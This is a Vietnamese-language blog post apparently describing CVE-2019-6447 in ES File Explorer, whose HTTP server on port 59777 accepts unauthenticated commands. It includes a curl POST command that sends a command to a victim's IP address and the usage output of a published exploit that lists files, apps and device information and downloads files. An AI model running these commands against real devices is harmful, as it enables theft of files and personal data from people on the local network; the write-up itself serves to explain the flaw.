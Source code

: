 ```yaml
---
title: CVE-2019-6447
date: 29/06/2021
layout: single
header:
  teaser: /assets/images/10.PNG
--- 
```



## Mô Tả 
Lỗ hổng mở cổng của ES File Explorer - CVE-2019-6447

ES File Explorer (Trình quản lý tệp) là một trình quản lý tệp (Hình ảnh, Nhạc, Phim, Tài liệu, ứng dụng) đầy đủ tính năng cho cả việc sử dụng cục bộ và mạng! Với hơn 500 triệu người dùng trên toàn thế giới, ES File Explorer (Trình quản lý tệp) giúp quản lý điện thoại Android và các tệp của bạn một cách hiệu quả và hiệu quả, đồng thời chia sẻ tệp mà không tốn dữ liệu.
 
Mỗi khi người dùng khởi chạy ứng dụng, máy chủ HTTP sẽ được khởi động. Máy chủ này đang mở cục bộ cổng 59777

```shell 
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop

```
Trên cổng này, kẻ tấn công có thể gửi tải trọng JSON đến mục tiêu
```shell
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.108:59777

```
Các lệnh này cho phép kẻ tấn công kết nối trên cùng một mạng cục bộ với nạn nhân, có được nhiều thông tin hấp dẫn (thông tin thiết bị, ứng dụng đã cài đặt, ...) về điện thoại của nạn nhân, lấy từ xa một tệp từ điện thoại của nạn nhân và khởi chạy từ xa ứng dụng trên điện thoại của nạn nhân.

## Các phiên bản bị ảnh hưởng
4.1.9.7.4 trở xuống

## Tính năng công cụ 
+ listFiles: Liệt kê tất cả các Tệp.
+ listPics: Liệt kê tất cả các Ảnh.
+ listVideos: Liệt kê tất cả các video.
+ listAudios: Liệt kê tất cả các âm thanh.
+ listApps: Liệt kê các ứng dụng đã cài đặt.
+ listAppsSystem: Liệt kê các ứng dụng Hệ thống.
+ listAppsPhone: Liệt kê các ứng dụng liên quan đến Giao tiếp.
+ listAppsSdcard: Liệt kê các ứng dụng trên thẻ SDCard.
+ listAppsAll: Liệt kê tất cả Ứng dụng.
+ getFile: Tải xuống tệp.
+ getDeviceInfo: Nhận thông tin thiết bị.

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

Mã khai thác của tác giả Nehal Zaman [CVE-2019-6447](https://www.exploit-db.com/exploits/50070)


```shell
C:\Users\Administrator\Documents\python>python 15.py cmd ip 

Available commands :
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.

```

## Cảm ơn :D
